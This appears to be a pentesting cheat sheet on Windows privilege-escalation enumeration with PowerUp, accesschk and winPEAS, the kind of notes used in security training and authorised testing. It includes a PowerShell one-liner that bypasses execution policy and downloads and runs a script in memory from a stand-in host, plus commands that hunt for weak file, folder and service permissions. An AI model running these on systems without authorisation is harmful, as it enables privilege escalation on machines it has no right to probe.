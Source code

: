 

# PowerUp

```
wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1
```

To run PowerUp, start a PowerShell session and **use dot sourcing to load the script:**

```
CMD> powershell -exec bypass

PS> . .\PowerUp.ps1

PS> Invoke-AllChecks

# Run the Invoke-AllChecks function to start checking for common privilege escalation misconfigurations.
```

**OR**

```
C:\> powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"
```

# accesschk.exe

AccessChk is an old but still trustworthy tool **for checking user access control rights.**

You can use it to check whether a user or group has access to files, directories, services, and registry keys.

The downside is more recent versions of the program spawn a GUI “accept EULA” popup window. When using the command line, we have to use an older version which still has an **/accepteula** command line option.

```
https://xor.cat/assets/other/Accesschk.zip
```

**Always do this first**

```
accesschk.exe /accepteula (always do this first!!!!!)
```

**Find all weak file permission per drive.**

```
accesschk.exe -uwqs Users c:\*.*

accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

**Find all weak folder permission per drive**

```
accesschk.exe -uwdqs Users c:\

accesschk.exe -uwdqs "Authenticated Users" c:\
```

# winPEAS

winPEAS is a very powerful tool that not only actively hunts for privilege escalation misconfigurations, but highlights them for the user in the results.

```
# Code: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
```

Before running, we need to add a registry key and then reopen the command prompt:

```
reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

Run all checks while avoiding time-consuming searches:

```
.\winPEASany.exe quiet cmd fast
```

Run specific check categories:

```
.\winPEASany.exe quiet cmd systeminfo
```